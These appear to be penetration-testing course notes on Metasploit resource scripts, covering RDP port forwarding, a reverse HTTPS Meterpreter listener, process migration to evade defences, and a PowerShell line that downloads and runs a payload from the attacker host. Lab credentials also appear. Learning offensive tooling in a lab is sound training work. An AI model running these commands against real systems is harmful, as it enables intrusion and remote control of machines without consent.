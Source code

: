 		- ```portfwd add -l 3389 -p 3389 -r 172.16.97.200```
	- Test
		- ```sudo xfreerdp /v:127.0.0.1 /u:luiza```

### Resource Scripts
- chain together a series of Metasploit console commands and Ruby code
- Example:
	- listener.rc
		- ```use exploit/multi/handler
			set PAYLOAD windows/meterpreter_reverse_https
			set LHOST 192.168.119.4
			set LPORT 443```
	- _AutoRunScript_ option
		- automatically execute a module after a session was created
			- use the _post/windows/manage/migrate_ module. This will cause the spawned Meterpreter to automatically launch a background _notepad.exe_ process and migrate to it
			- Automating process migration helps to avoid situations where our payload is killed prematurely either by defensive mechanisms or the termination of the related process.
		- ```set AutoRunScript post/windows/manage/migrate ```
	- set _ExitOnSession_ to _false_
		- ensure that the listener keeps accepting new connections after a session is created.
		- ```set ExitOnSession false```
	- **show advanced**
		- We can also configure advanced options such as _ExitOnSession_ in multi/handler and _AutoRunScript_ in payloads by using **show advanced** within the activated module or selected payload.
	- Run in background
		- `run -z -j`
	- Run script
		- ```sudo msfconsole -r listener.rc```
	- initial setup for example
		- Let's connect to the BRUTE2 machine via RDP with user _justin_ and password _SuperS3cure1337#_, start PowerShell, download the malicious Windows executable **met.exe** that we already used in previous sections, and execute it.
		- `iwr -uri http://192.168.119.4/met.exe -Outfile met.exe`
		- `.\met.exe`
- Already provided scripts in **scripts/resource** from Metasploit
	- ```ls -l /usr/share/metasploit-framework/scripts/resource```